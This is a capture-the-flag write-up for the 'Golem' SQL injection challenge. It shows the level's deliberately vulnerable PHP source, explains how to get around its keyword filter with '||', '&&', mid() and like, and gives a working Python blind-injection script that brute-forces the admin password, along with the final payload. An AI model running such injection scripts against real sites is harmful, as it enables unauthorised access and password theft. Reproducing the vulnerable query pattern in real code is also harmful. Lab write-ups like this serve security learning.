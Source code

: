# **Golem**

This challenge is similar to Orc & Orge.

```shell=
<?php   
  include "./config.php";   
  login_chk();   
  dbconnect();   
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[pw])) exit("No Hack ~_~");   
  if(preg_match('/or|and|substr\(|=/i', $_GET[pw])) exit("HeHe");   
  $query = "select id from prob_golem where id='guest' and pw='{$_GET[pw]}'";   
  echo "<hr>query : <strong>{$query}</strong><hr><br>";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if($result['id']) echo "<h2>Hello {$result[id]}</h2>";   
     
  $_GET[pw] = addslashes($_GET[pw]);   
  $query = "select pw from prob_golem where id='admin' and pw='{$_GET[pw]}'";   
  $result = @mysql_fetch_array(mysql_query($query));   
  if(($result['pw']) && ($result['pw'] == $_GET['pw'])) solve("golem");   
  highlight_file(__FILE__);   
?>
```

The difference is that `if(preg_match('/or|and|substr\(|=/i', $_GET[pw]))` filter out `substr` & `=`.

Filtering out `substr` isn't a big deal, cuz we used to compare the value by `mid()`.

The acceptable way to replace the `=` is `like`, though they are not the same.

```shell=
import urllib.parse
import http.client

HTTP=http.client.HTTPConnection("los.eagle-jump.org")
Url="/golem_39f3348098ccda1e71a4650f40caa037.php?pw="
Headers={"Cookie":"__cfduid=[your Own cfduid]; PHPSESSID=[your Own PHPSESSID]"} #check your own cookie then insert the correct value to make connection success, or you will get nothing return.
Passwd=""
 
for i in range(len(Passwd)+1,100):
    for c in "0123456789abcdefghijklmnopqrstuvwxyz+":

        Payload="' || id like 'admin' && mid(pw,"+str(i)+",1) like '"+c

        HTTP.request("GET",Url+urllib.parse.quote(Payload),"",Headers)

        #print (Payload)
                
        if (b"Hello admin" in HTTP.getresponse().read()):
            Passwd+=c
            print ("[+] Found: %c" % c)

            HTTP.request("GET",Url+urllib.parse.quote(Passwd),"",Headers)
            if (b"Clear" in HTTP.getresponse().read()):
                print ("[*] Password: %s" % Passwd)

            break
print ("[!] Not Found")
print ("[*] Password: %s" % Passwd)
```

![](https://i.imgur.com/X7I81hQ.png)

It doesn't exit after first SQL statement return FALSE, so just paste the correct password to make second SQL statement become TRUE then pass it.

Payload is : `?pw=88e3137f`

